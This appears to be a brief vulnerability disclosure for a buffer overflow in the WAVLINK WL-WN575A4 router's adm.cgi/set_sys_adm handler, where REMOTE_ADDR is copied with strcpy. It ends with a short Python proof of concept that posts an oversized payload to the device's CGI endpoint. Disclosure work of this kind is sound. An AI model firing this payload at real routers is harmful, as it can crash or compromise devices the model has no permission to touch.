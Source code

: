 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in adm.cgi/set_sys_adm

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](1.png)

get value from REMOTE_ADDR ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page=sysAdm&REMOTE_ADDR=' + payload})
``` 
